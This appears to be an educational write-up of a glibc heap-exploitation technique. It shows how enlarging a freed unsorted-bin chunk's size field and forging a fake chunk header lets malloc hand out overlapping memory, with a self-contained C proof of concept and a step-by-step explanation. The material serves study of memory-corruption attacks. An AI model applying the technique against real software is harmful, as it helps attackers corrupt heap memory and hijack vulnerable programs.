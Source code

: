 <details>
<summary><strong>Description</strong></summary>
<p>

we will be trying to allocate partially overlapping chunks.

this time around, we will be doing so via expanding the size of an unsorted bin chunk, into an adjacent heap chunk we wish to allocate partially overlapping data into. Then, we will allocate that expanded chunk...

</p>
</details>

<details>
<summary><strong>POC</strong></summary>
<p>

> compiled with glibc `2.31`, `2.35`, `2.38` and `2.39`

```c
#include <stdio.h>
#include <stdlib.h>

void main() {
    setbuf(stdin, NULL); // disable buffering so _IO_FILE does not interfere with our heap
    setbuf(stdout, NULL);

    long *chunk0, *chunk1, *overlapping_chunk, *overlapping_chunk_end;

    chunk0 = malloc(0x420);
    chunk1 = malloc(0x80);

    free(chunk0);

    /*VULNERABILITY*/
    chunk0[-1] = 0x470 + 0x10; // expand the chunk0 (freed) size, overlapping with chunk1
    /*VULNERABILITY*/

    // this two fields need to fengshui depend on expanded size
    chunk1[8] = 0x470 + 0x10; // fake adjacent chunk prev_size
    chunk1[9] = 0x40; // fake adjacent chunk size

    overlapping_chunk = malloc(0x470); // allocate unsortedbin chunk via exact fit mechanism
    overlapping_chunk_end = (long *)((long)overlapping_chunk + 0x470 + 0x10);

    printf("overlapping chunk begin: %p\n", overlapping_chunk);
    printf("overlapping chunk end: %p\n", overlapping_chunk_end);
    printf("chunk 1: %p\n", chunk1);
}
```

</p>
</details>

<details>
<summary><strong>Explain</strong></summary>
<p>

so this process is going to be a bit simpler than previous techniques that produce more or less the same result.

**the first** thing we will have to do is free a chunk and have it inserted into the unsorted bin, that is adjacent to the chunk which we want to allocate again.

**the second** thing that we will need to do, is expand the size of the freed unsorted bin chunk, to expand it into the adjacent chunk, and contain the data which we want to overlap.

**the third** thing we will need to do is put a fake heap chunk header right after our expanded heap chunk, and put in heap metadata to match our expanded chunk. Also for this, I will put the size of the fake heap chunk to line up with the next actual heap chunk (help prevent potential issues).

**then** we will simply request from malloc, a chunk that is the exact size of the expanded unsorted bin chunk. It will get allocated, and just like that, we will have allocated the same block of memory twice.

in this context, we will start off with two chunks, one of size `0x430` and the other of size `0x90`. We will expand the `0x430` chunk `0x50` bytes. So we will set the size of the `0x430` chunk, to `0x480`. Then in the `0x90` chunk, `0x50` bytes after the actual heap chunk header, we will make a fake heap chunk header. We will set its `prev_size` to `0x480`, and the chunk size to `0x40`. Then, we will just allocate a chunk size of `0x480`, which will give us the overlapping chunk.

</p>